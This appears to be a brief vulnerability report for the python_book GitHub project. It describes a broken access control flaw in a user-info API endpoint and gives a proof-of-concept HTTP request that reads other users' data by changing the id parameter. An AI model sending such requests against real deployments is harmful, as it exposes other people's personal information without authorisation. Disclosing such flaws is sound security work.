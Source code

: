 target:https://github.com/geeeeeeeek/python_book version: V1.0

The system has a Broken Access Control vulnerability, which allows attackers to obtain sensitive information of users with different IDs by modifying the ID parameter.

POC:

```
GET /api/myapp/index/user/info?id=418 HTTP/1.1
Host: 
Connection: keep-alive
sec-ch-ua: "Chromium";v="124", "Microsoft Edge";v="124", "Not-A.Brand";v="99"
Accept: application/json, text/plain, */*
sec-ch-ua-mobile: ?0
Access-Control-Allow-Headers: adminToken, token,Content-Type
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
TOKEN: 
sec-ch-ua-platform: "Windows"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://book.gitapp.cn/
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6

```

![image-20241009235534356](image-20241009235534356.png)

![image-20241009235455772](image-20241009235455772.png)